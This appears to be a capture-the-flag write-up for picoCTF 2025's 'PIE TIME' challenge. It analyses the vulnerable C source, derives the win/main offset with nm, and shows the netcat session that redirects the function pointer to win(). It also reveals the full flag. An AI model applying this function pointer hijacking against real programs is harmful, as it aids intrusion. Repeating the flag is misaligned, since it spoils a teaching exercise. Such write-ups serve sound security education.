 **Author**: @brynrefill<br>
**Completion date**: 2025-07-10

## General information
- **Name**: PIE TIME
- **Event**: picoCTF 2025
- **Category**: pwn (binary exploitation)
- **Difficulty**: easy
- **Platform**: picoCTF
- **Release date**: 2025-03-07

#### Description:
> _Can you try to get the flag? Beware we have PIE!_<br>
_Connect to the program with netcat:_<br>
_$ nc rescued-float.picoctf.net &lt;port&gt;_<br>
_The program's source code can be downloaded [here](./vuln.c)._<br>
_The binary can be downloaded [here](./vuln)._

&lt;port&gt; is a placeholder I use for the port you need to connect to, because it changes every time the challenge is started.

## What I used
- **Program's source code** and **binary** files reported in the description of the challenge
- **file** and **nm** Unix/Linux utilities to perform a basic static analysis of the binary file, and other minor commands
- **Function pointer hijacking** technique to redirect the control flow of the program by exploiting a function pointer

## Solution steps
#### STEP 1: source code analysis
I started by analyzing the program's source code and understanding how it works.

**segfault_handler** function:
```C
void segfault_handler() {
    printf("Segfault Occurred, incorrect address.\n");
    exit(0);
}
```
it is a signal handler for SIGSEGV signals. When a segmentation fault occurs, this signal is sent by the OS to the process running this program and this function will be called. In this case prints the above message and terminates successfully.

**win** function:
```C
int win() {
    [...]

    printf("You won!\n");
    // Open file
    fptr = fopen("flag.txt", "r");

    [...]

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }

    [...]
}
```
it reads a local file, where the flag is located, and prints the content. This function is never called by the main function, unless we find a way to do it (we'll see later).

**main** function:
```C
int main() {
    signal(SIGSEGV, segfault_handler);
    setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

    printf("Address of main: %p\n", &main);

    unsigned long val;
    printf("Enter the address to jump to, ex => 0x12345: ");
    scanf("%lx", &val);
    printf("Your input: %lx\n", val);

    void (*foo)(void) = (void (*)())val;
    foo();
}
```
it registers the segfault_handler function to handle SIGSEGV signals and disables buffering for standard output, so the program will immediately print the output without waiting for a buffer to fill (e.g. useful if a signal might interfere with normal output behavior). It then prints the memory address of the main function itself and prompts the user to enter a memory address to jump to. Additionally, by means of a function pointer, it calls the function at the memory address previously provided by the user.

#### STEP 2: binary file analysis
I continued by doing a basic static analysis of the binary file.
```bash
$ file ./vuln
./vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0072413e1b5a0613219f45518ded05fc685b680a, for GNU/Linux 3.2.0, not stripped
```
First of all, I noticed that it is specified as a "**pie** executable".

[PIEs](https://en.wikipedia.org/wiki/Position-independent_code#Position-independent_executables) are executables designed to be loaded at any memory address without compromising their functionalities when executed. They are often used with [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization), a security technique that randomizes the memory address where the program will be loaded into memory at each execution.

In such binary files, the offset between functions and other symbols does not change because it's determined at compile time, even if ASLR randomizes the base memory address of the entire code.

Since the program allows the user to insert a memory address to jump to, we can use the **function pointer hijacking** tecnique to bypass the above mentioned security measure.

I found the memory addresses of the main and win functions in the binary file (the ones determined at compile time).
```bash
$ nm ./vuln | grep -wE "main|win"
000000000000133d T main
00000000000012a7 T win
```

I then calculated the offset between them.
```bash
$ printf "0x%X\n" $((0x133d - 0x12a7))
0x96
```
The main function will always be 150 (0x96 in decimal) bytes after the win function.

#### STEP 3: exploitation
Finally, I connected to the remote program and entered the new memory address of the win function as input, obtaining the flag.
```bash
$ nc rescued-float.picoctf.net <port>
Address of main: 0x5ea40254633d
Enter the address to jump to, ex => 0x12345: 0x5EA4025462A7
Your input: 5EA4025462A7
You won!
picoCTF{#####_########_############_########}
```
I dinamically calculated it similarly to before.
```bash
$ printf "0x%X\n" $((0x5ea40254633d - 0x96))
0x5EA4025462A7
```

## Flag
<details><summary>Click to reveal the flag</summary>

```
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_80c3b8b7}
```

</details>

## Screenshots
No screenshots.

## Personal notes
No personal notes.

## References
No references.
